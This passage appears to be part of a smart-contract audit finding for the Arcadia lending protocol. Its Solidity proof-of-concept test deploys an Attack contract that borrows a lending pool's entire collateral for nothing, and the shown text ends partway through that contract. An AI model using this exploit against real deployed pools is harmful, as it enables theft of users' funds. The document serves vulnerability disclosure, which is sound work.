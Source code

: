 ```solidity
  vm.startPrank(_ATTACKER);

  /// @dev Deploy the attack contract.
  Attack attack = new Attack(factory, pool, mockERC20.stable1);

  /// @dev Fund the attack liquidity.
  mockERC20.stable1.transfer(address(attack), attackLiquidity);
  /// @dev Accumulate a number of bot accounts.
  attack.prepareAccounts(numberOfBots) /* accumulate_bots */;

  /// @dev Begin the attack.
  attack.rekt();

  /// @notice At this stage, the pool has been emptied, and each account
  /// is left in possession of their borrowed collateral.
  assertEq(mockERC20.stable1.balanceOf(address(pool)), 0) /* pool_drained */;
  assertEq(mockERC20.stable1.balanceOf(address(attack)), attackLiquidity) /* no_loss_for_attacker_besides_gas */;

  vm.stopPrank();

}
```

A high-level description of the operations is defined below:

1.  We prepare the `_ATTACKER` with `attackLiquidity` (`10 ** 18`) of underlying tokens.
2. We also prepare the [`LendingPool`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol) with a deposit of `(numberOfBots * attackLiquidity) / 2` of underlying collateral via the `srTranche`. Note that here, we are choosing values which simplify the logical operations involved (an attacker would need to care to handle dust amounts).
3. The `_ATTACKER` deploys the `Attack` contract and preallocates a number of "bot" accounts in the interest of reducing gas consumption during the main attack flow.
4. After executing `rekt()`, we can verify that the amount of collateral belonging to the custom `Attack` contract (and therefore the `_ATTACKER`) is equivalent to the original `attackLiquidity`, signifying zero loss for the `_ATTACKER` besides gas. Conversely, we demonstrate that the balance of the [`LendingPool`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol) is now `0`.

What has happened is the `Attacker` contract has borrowed all of the [`LendingPool`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol)'s underlying collateral in exchange for nothing in return.

Below, we declare the `Attack` contract (within the same scope of  [`Borrow.fuzz.t.sol`](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/test/fuzz/LendingPool/Borrow.fuzz.t.sol)):

```solidity
contract Attack {

  /// @dev Address of the factory.
  Factory private immutable _FACTORY;
  /// @dev Address of the pool we intend to target.
  LendingPoolExtension private immutable _POOL;
  /// @dev The collateral token.
  ERC20Mock private immutable _TOKEN;

  /// @dev Array of bot accounts pre-allocated by the attacker.
  /// Can be accumulated during a preliminary phase, therefore
  /// unconstrainted by gas when preparing these.
  address[] private _accounts;

  /// @dev Attack depth tracker.
  uint256 private _attackDepth;

```